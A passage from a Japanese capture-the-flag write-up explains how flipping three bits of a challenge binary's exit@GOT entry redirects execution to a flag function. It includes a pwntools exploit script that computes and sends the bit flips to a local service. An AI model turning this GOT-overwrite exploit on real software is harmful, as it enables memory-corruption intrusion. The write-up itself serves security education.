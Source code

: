 `exit@GOT`の初期値と`flag`のアドレスは2進数にすると次の通り
```
exit@GOT: 0b1000000001001000010011110110
flag    : 0b1000000001001000011010100110
diff    :                     ^  ^ ^
```

ビットが異なっている桁は3つ、よって4回までの反転で`exit@GOT`の中身を`flag`のアドレスに変えることは可能である。
但し、反転出来るのは指定したアドレスの下位8bitであり、`exit@GOT`の中身で書き換えたいのは(右端を0bit目として)4, 6, 9bit目なので9bit目を書き換える際はアドレスを1つ大きい位置に指定する必要がある。

そしてこの反転をしてもまだ1回分余っているが反転桁を入力するところで8以上の値を指定すると`exit`が呼ばれることから`flag`へ飛ぶことになる。

## Code

```python
from pwn import remote, process, p64, u32, ELF


def get_flip_bits(addr1, addr2):
    xored = addr1 ^ addr2

    ret = []
    idx = 0
    while xored != 0:
        if xored & 1 == 1:
            ret.append(idx)
        xored = xored >> 1
        idx += 1
        # print(xored)

    return ret


if __name__ == '__main__':
    target = "localhost"
    port = 4444

    elf = ELF("./bit")
    got = elf.got

    flag_addr = elf.symbols["flag"]
    exit_got = elf.got["exit"]
    exit_got_val = u32(elf.read(exit_got, 4))
    
    print(hex(flag_addr))
    print(hex(exit_got))
    print(hex(exit_got_val))

    print(bin(flag_addr))
    print(bin(exit_got_val))

    flips = get_flip_bits(flag_addr, exit_got_val)
    print(flips)

    s = remote(target, port)

    for flip in flips:
        s.recvuntil(b"Give me the address of the byte: ")
        target = exit_got + flip // 8
        s.sendline(hex(target)[2:].encode())
        s.recvuntil(b"Give me the index of the bit: ")
        s.sendline(str(flip % 8).encode())

    s.recvuntil(b"Give me the address of the byte: ")
```